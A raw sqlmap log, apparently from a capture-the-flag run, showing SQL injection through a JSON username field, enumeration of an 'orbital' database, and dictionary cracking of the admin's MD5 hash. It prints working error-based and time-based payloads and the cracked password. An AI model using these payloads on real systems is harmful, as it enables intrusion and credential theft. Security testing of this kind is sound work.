 ```
[19:27:27] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
(custom) POST parameter 'JSON username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 1397 HTTP(s) requests:
---
Parameter: JSON username ((custom) POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: {"username":"admin" AND (SELECT 2242 FROM(SELECT COUNT(*),CONCAT(0x71716a6a71,(SELECT (ELT(2242=2242,1))),0x71626b7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- IPSK","password":"password"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"username":"admin" AND (SELECT 4429 FROM (SELECT(SLEEP(5)))Llei)-- Mhzj","password":"password"}
---
[19:27:44] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[19:27:44] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[19:27:44] [INFO] fetching current database
[19:27:45] [INFO] retrieved: 'orbital'
[19:27:45] [INFO] fetching tables for database: 'orbital'
[19:27:45] [INFO] retrieved: 'communication'
[19:27:45] [INFO] retrieved: 'users'
[19:27:45] [INFO] fetching columns for table 'users' in database 'orbital'
[19:27:45] [INFO] retrieved: 'id'
[19:27:46] [INFO] retrieved: 'int(11)'
[19:27:46] [INFO] retrieved: 'username'
[19:27:46] [INFO] retrieved: 'varchar(255)'
[19:27:46] [INFO] retrieved: 'password'
[19:27:46] [INFO] retrieved: 'varchar(255)'
[19:27:46] [INFO] fetching entries for table 'users' in database 'orbital'
[19:27:46] [INFO] retrieved: '1'
[19:27:47] [INFO] retrieved: '1692b753c031f2905b89e7258dbc49bb'
[19:27:47] [INFO] retrieved: 'admin'
[19:27:47] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[19:28:10] [INFO] writing hashes to a temporary file '/tmp/sqlmapxmrfdr0m9619/sqlmaphashes-xvcfw_me.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[19:28:13] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[19:28:17] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[19:28:23] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[19:28:23] [INFO] starting 2 processes 
[19:28:33] [INFO] cracked password 'ichliebedich' for user 'admin'                                                                                                                                                                        
Database: orbital                                                                                                                                                                                                                         
Table: users
[1 entry]
+----+-------------------------------------------------+----------+
| id | password                                        | username |
```